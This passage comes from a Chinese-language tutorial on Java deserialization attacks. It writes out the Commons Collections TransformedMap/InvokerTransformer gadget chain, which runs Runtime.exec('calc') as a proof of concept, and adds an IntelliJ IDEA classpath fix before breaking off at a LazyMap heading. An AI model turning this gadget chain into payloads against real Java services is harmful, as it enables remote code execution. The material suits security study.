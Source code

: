 ```

    Transformer[] transformers = new Transformer[]`{` 

new ConstantTransformer(Runtime.class), 

new InvokerTransformer("getMethod", new Class[] `{` String.class, Class[].class `}`, new Object[] `{`"getRuntime", new Class[0] `}`), 

       new InvokerTransformer("invoke", new Class[]`{`Object.class, Object[].class`}`, new Object[]`{`null, new Object[0]`}`), 

        new InvokerTransformer("exec", new Class[]`{`String.class`}`, new Object[]`{`"calc"`}`) 
     `}`; 
    //Runtime.getRuntime().exec("calc"); 
    Transformer chainedTransformer = new ChainedTransformer(transformers); 
     Map inMap = new HashMap(); 
    inMap.put("key", "value");//随便一个Map即可 
     Map outMap = TransformedMap.decorate(inMap, null, chainedTransformer);//生成TransformedMap 
     for (Iterator iterator = outMap.entrySet().iterator(); iterator.hasNext();)`{` 
       Map.Entry entry = (Map.Entry) iterator.next(); 

       entry.setValue("1");//无论参数为何值 
     `}` 
   `}` 
`}`
```

直接run会可能报错，报错内容:<br>
Error running ‘ServiceStarter’: Command line is too long. Shorten command line for ServiceStarter or also for Application default configuration.

大多数操作系统都有最大的命令行限制，当它超过时，IDEA将无法运行您的应用程序。 当命令行长于32768个字符时，IDEA建议您切换到动态类路径。长类路径被写入文件，然后由应用程序启动器读取并通过系统类加载器加载。<br>
在下面的console里看下，

[![](https://p5.ssl.qhimg.com/t017507c3955920bacb.png)](https://p5.ssl.qhimg.com/t017507c3955920bacb.png)

由于有路径的原因，命令确实比较长，但也没长到几万，不知为何发生。

解法:<br>
修改项目下 .idea\workspace.xml，找到标签 &lt;component name=”PropertiesComponent”&gt; ， 在标签里加一行 &lt;property name=”dynamic.classpath” value=”true” /&gt;<br>
修改完成后，run，

[![](https://p0.ssl.qhimg.com/t013fd03b54dab642a6.png)](https://p0.ssl.qhimg.com/t013fd03b54dab642a6.png)

成功执行。<br>
如果这样走，我们需要找的即是对TransformedMap.setvalue的一处调用（也是无论参数为何值，将这分成第二段），寻找调用点的部分将在2.3中实现。

##### <a class="reference-link" name="%EF%BC%88%E4%BA%8C%EF%BC%89LazyMap"></a>（二）LazyMap
